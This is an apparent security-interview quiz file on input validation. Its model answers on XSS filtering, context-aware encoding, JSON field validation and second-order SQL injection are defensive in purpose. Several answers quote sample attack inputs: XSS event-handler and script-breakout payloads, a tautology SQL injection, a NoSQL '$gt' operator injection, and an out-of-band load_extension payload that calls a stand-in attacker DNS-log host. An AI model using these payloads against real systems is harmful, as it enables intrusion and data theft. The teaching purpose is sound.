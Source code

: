```yaml
---
[🏠 Home](../../../../README.md) / [🌐 Web Application Security](../) / [🔎 Input Validation & Injection](./quiz.md)

[⬅️ Previous](../1.12-misc-attacks/quiz.md) | [➡️ Next](../1.02-cross-site-scripting/quiz.md)
---
```


# 🧪 Subtopic Quiz — 1.01.1 Input Validation Fundamentals

This file contains real-world interview questions and finalized answers for this subtopic.

---

### 🧩 Question 1:
**Developer says:**  
"We're validating user input with a regex on the frontend and disallowing angle brackets (`<`, `>`), so XSS isn't a problem."

✅ **Final Answer:**
"This approach is insecure for several reasons:

1. Client-side validation alone is ineffective — it can be bypassed by disabling JS, intercepting requests, or crafting payloads manually.

2. Simple regex filtering based on angle brackets doesn't stop XSS. Attackers can use:
- HTML entities: `&lt;`, `&gt;`
- Alternate tags like `<svg/onload=alert(1)>`
- Event handlers inside allowed tags: `<img src=x onerror=...>`
- JavaScript contexts like `"><script>...</script>`

3. XSS defenses must be context-aware and server-side:
- Use output encoding based on the injection point (HTML, JS, attribute, etc.)
- Implement Content Security Policy (CSP) to restrict inline script execution
- Use frameworks with built-in escaping (React, Django templates, etc.)


---

### 🧩 Question 2:
**Scenario:**  
You're asked to improve security in a legacy web app vulnerable to both XSS and SQLi. The dev team says they already use basic regex filters to block certain characters.

#### ❓ Questions:
1. Why is encoding as important as input validation?
2. How would you apply context-aware encoding in:
   - HTML body
   - JavaScript context (inline)
   - SQL queries
3. What libraries/tools would you use?

✅ **Final Answer:**

1. **Why encoding is critical:**  
   Input validation attempts to block malicious patterns at entry points but cannot cover every possible payload or bypass technique. Encoding ensures that any untrusted data that reaches the output layer is treated as inert content rather than executable code. It's the last line of defense that neutralizes potentially dangerous characters by converting them into safe equivalents.

2. **Context-aware encoding examples:**
   - **HTML Body:** Encode characters like `<`, `>`, `&`, `"` using HTML entities (e.g., `&lt;`, `&gt;`, `&quot;`) to prevent injection into visible HTML.
   - **JavaScript Context:** Encode `"` as `\x22`, `'` as `\x27`, and escape newlines, backslashes, etc., to prevent breaking out of strings or executing scripts.
   - **SQL Queries:** Use parameterized queries (e.g., `?` placeholders in SQL libraries) rather than trying to encode input manually, which is error-prone.

3. **Recommended Libraries/Tools:**
   - **HTML/JS Encoding:** OWASP Java Encoder (Java), Microsoft AntiXSS (C#), `html-escape` in Python, or templating engines like React/Vue (auto-escape).
   - **SQL Injection Prevention:** Use parameterized queries in libraries like `pg` (PostgreSQL for Node.js), SQLAlchemy (Python), Hibernate (Java), etc.

---

### 🧩 Question 3:
**Scenario:**  
You're testing a payment endpoint that expects this JSON:
```json
{
  "amount": 100,
  "userId": "user_123"
}
```
The backend is written in a dynamically typed language like Python or JavaScript.

#### ❓ Questions:
1. What types of validation should be enforced on each field?
2. What kinds of attacks could occur if this validation is missing?
3. How would you structure validation logic in a secure backend?

✅ **Final Answer:**

1. **Field-Level Validation:**

   - `amount`:
     - Must be a positive number (no negative or zero)
     - Type check: integer or float
     - Max cap to prevent overflow (e.g., 100000)
   - `userId`:
     - Must match regex like `^user_\d+$`
     - Length-limited (e.g., ≤32 characters)
     - Only alphanumerics and underscore allowed

2. **Possible Attacks Without Validation:**
   - **Amount tampering:** Sending `-100` or `0.01` through MITM tools like Burp Suite to exploit pricing logic
   - **SQL Injection via userId:** e.g., `user_123' OR '1'='1` if string concatenation is used
   - **Type confusion:** Passing objects or booleans instead of expected primitives (e.g., `userId: { "$gt": "" }`)

3. **Secure Backend Validation Workflow:**
   - ✅ **Schema Validation Layer:** Use tools like Joi, zod, or Pydantic to validate input shape, types, and patterns
   - ✅ **Business Logic Validation:** Check price boundaries, enforce discounts on backend only, verify user role
   - ✅ **Vulnerability Guardrails:** Use parameterized queries, avoid string-based DB access, sanitize logs

   Example (Node.js with pg):
   ```js
   const query = 'SELECT * FROM users WHERE userId = $1';
   const values = [req.body.userId];
   db.query(query, values);
   ```

---

### 🧩 Question 4:
**Scenario:**  
You're reviewing a legacy PHP application where the `bio` field submitted during user signup is stored in the database and later rendered in the admin dashboard. A security test revealed that this `bio` content is reused without revalidation or escaping, and it's also passed into SQL queries indirectly via a cron job.

#### ❓ Questions:
1. What type of injection is this?
2. How would you detect and confirm this vulnerability?
3. What mitigation strategies would you apply?

✅ **Final Answer:**

1. **Type of injection:**  
   This is a **Second-Order SQL Injection**. The malicious input is stored in the database during an initial operation (e.g., signup) but the injection occurs later when that data is reused in a different context (e.g., cron job or admin view) without proper sanitization or escaping.

2. **Detection and confirmation:**
   - Insert a payload like `' ; SELECT load_extension('\\\\attacker.dnslog.domain\\abc');--` in the `bio` field during signup.
   - Monitor for delayed SQL execution or out-of-band interactions when the admin dashboard or cron job processes the data.
   - Tools like Burp Collaborator, DNS logs, or backend logs can help confirm this behavior.

3. **Mitigation:**
   - Always validate and sanitize inputs both on entry and before reuse.
   - Apply parameterized queries during *every* database interaction, not just at insertion.
   - Avoid dynamic query construction using previously stored user inputs.
   - Use logging and alerting to detect suspicious behavior or unexpected outbound requests from internal systems.